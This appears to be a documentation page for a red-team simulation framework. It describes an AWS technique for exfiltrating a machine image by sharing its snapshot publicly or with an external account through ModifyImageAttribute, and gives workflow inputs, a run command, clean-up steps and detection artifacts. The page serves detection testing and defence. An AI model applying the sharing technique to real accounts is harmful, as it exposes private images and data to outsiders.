

# Exfiltrate an AMI by Sharing It


Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


This attack has two different ways to share an EBS Snapshot externally. 
- The first option shares an AMI snapshot with {"groups":"all"} - everyone.
- The second case shares an AMI Snapshot with an external AWS that is user defined. If none is defined the AMI snapshot is shared with account `012345678901`

#### Attacker Actions: 

- Updated the attributes of an AMI image Snapshot to an external, fictitious AWS account or {"groups":"all"}
  - Resulting event name: `ModifyImageAttribute`
  - Assigned IAM Permission: `ec2:ModifyImageAttribute`

#### Workflow Inputs: 
Specify which user this attack should run as.   
```json
# Sharing the AMI with group:all
{"case":"1","user":"user01"}
{"case":"1","user":"user02"}

# Sharing the AMI with an external fictitious account. Define the fictitious account ID as the externalAccountId, a 12 digit numeric string, example below.
{"case":"2","user":"user01","externalAccountId":"012345678901"}
{"case":"2","user":"user02","externalAccountId":"012345678901"}
```

#### Clean Up: 

- Removes the fictitious external AWS account or {"groups":"all"} by calling the `ModifyImageAttribute` API again, this time removing the permission.
  - Executed as the `DeRF Default User`

## Execution Instructions

- See [User Guide](../../user-guide/execution-user-permissions.md) for Execution Instructions via the Google Cloud Console
- Programmatically execute this workflow with the following cli command:

```
gcloud workflows run aws-ec2-ami-share-snapshot-srt --data={"case":"1","user":"user01"}  
```


## Detection Artifacts


Identify when the permission to launch an AMI Image Snapshot is modified with the <code>ModifyImageAttribute</code> event.  Specifically when the requestParameters.attributeType is `launchPermission` indicating the permission for AMI are being modified and the `requestParameters.launchPermission.add.items` contains either an external AWS Account Id or {"groups":"all"}



Refer to Stratus Red Team documentation for additional detailed [detection artifacts](https://stratus-red-team.cloud/attack-techniques/AWS/aws.exfiltration.ec2-share-ami/) produced by this attack technique.

